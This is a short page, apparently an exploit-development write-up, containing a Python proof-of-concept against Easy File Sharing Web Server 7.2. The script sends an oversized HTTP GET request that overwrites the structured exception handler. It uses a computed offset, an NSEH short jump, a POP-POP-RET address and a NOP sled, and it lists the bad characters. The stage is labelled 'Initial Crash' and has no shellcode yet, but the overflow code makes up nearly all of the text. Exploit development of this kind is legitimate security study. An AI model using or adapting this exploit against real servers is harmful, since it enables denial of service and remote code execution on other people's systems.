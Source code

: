 # Easy File Sharing Web Server 7.2 - DEP Enabled manually

Downloaded from: https://www.exploit-db.com/exploits/44522

## Initial Crash
```py
import socket
import os
import sys
import struct

ip = "127.0.0.1"
port = 80

#\x0a\x0d\x20\x25\x2f\x5c

CRASH_LEN = 5000  # change me
OFFSET = 4061  # change me

payload = b"A" * OFFSET
payload += struct.pack("<I",0x06eb9090) # short jump 8 - NSEH
payload += struct.pack("<I",0x100103fe) #PPR SEH
payload += b"\x90" * 10
payload += b"D" * (CRASH_LEN - len(payload))


buffer = b"GET "
buffer += payload
buffer += b" HTTP/1.1\r\n"

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()![immagine](https://user-images.githubusercontent.com/59916156/194387679-1029a1d5-e37f-4b34-a397-3c4efd998946.png)

```
